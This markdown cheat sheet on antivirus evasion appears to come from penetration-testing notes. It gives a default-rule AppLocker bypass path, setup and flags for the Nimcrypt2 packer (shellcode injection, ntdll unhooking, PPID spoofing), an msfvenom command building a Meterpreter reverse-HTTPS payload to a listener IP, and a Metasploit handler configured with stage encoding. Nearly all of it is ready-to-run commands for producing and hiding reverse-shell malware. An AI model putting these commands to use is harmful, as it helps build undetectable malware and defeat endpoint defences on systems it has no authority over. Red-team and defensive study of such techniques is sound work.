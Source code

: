 # Anti-Virus Evasion

## Applocker

* AppLocker is an application whitelisting technology introduced with Windows 7.
* It allows restricting which programs users can execute based on the programs path, publisher and hash.
* If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory:

```
C:\Windows\System32\spool\drivers\color
```

* This is whitelisted by default.&#x20;

### Nimcrypt2

#### Help Menu&#x20;

```
Usage:
  nimcrypt -f file_to_load -t csharp/raw/pe [-o <output>] [-p <process>] [-n] [-u] [-s] [-e] [-g] [-l] [-v] [--no-ppid-spoof]
  nimcrypt (-h | --help)

Options:
  -h --help     Show this screen.
  --version     Show version.
  -f --file filename     File to load
  -t --type filetype     Type of file (csharp, raw, or pe)
  -p --process process   Name of process for shellcode injection
  -o --output filename   Filename for compiled exe
  -u --unhook            Unhook ntdll.dll
  -v --verbose           Enable verbose messages during execution
  -e --encrypt-strings   Encrypt strings using the strenc module
  -g --get-syscallstub   Use GetSyscallStub instead of NimlineWhispers2
  -l --llvm-obfuscator   Use Obfuscator-LLVM to compile binary
  -n --no-randomization  Disable syscall name randomization
  -s --no-sandbox        Disable sandbox checks
  --no-ppid-spoof        Disable PPID Spoofing
```

#### Installation&#x20;

```
git clone https://github.com/icyguider/Nimcrypt2.git
sudo apt install gcc mingw-w64 xz-utils git
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
echo "export PATH=$HOME/.nimble/bin:$PATH" >> ~/.bashrc
export PATH=$HOME/.nimble/bin:$PATH
nimble install winim nimcrypto docopt ptr_math strenc
cd /opt/Nimcrypt2
nim c -d=release --cc:gcc --embedsrc=on --hints=on --app=console --cpu=amd64 --out=nimcrypt nimcrypt.nim
```

* Nimcrypt2 is a fantastic option for obfuscating your binaries, works with sliver, msf, and more
* generate your payload

#### Metasploit with Nimcrypt&#x20;

```
//Payload Generation 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.15.45 LPORT=443 --encoder x86/shikata_ga_nai -i 3 -f exe -o start.exe
```

* Now encrypt it with nimcrypt2

```
./nimcrypt -f start.exe -t pe -o security.exe -p svchost -e -u
```

### Metasploit Listener Obsfucation&#x20;

```
msfconsole -q
use exploit/multi/handler
set LHOST 10.10.15.45
set LPORT 443
set payload windows/x64/meterpreter/reverse_tcp
set EXITFUNC thread
set autoloadstdapi false
set autosysteminfo false
set enablestageencoding true
set stageencoder x64/xor_dynamic
run -j
```

### Nimcrypt and Shellcode / PE

* Generate your shellcode blob&#x20;
* Select a process to inject into, the default process is `explorer.exe`&#x20;
* If the process is not started, nimcrypt will spawn it and then inject into it&#x20;

#### Shellcode&#x20;

```
./nimcrypt2 -f shellcode.bon -t raw -o filename.exe -p process-name
```

#### PE

```
./nimcrypt2 -f shellcode.exe -t pe -o filename.exe
```
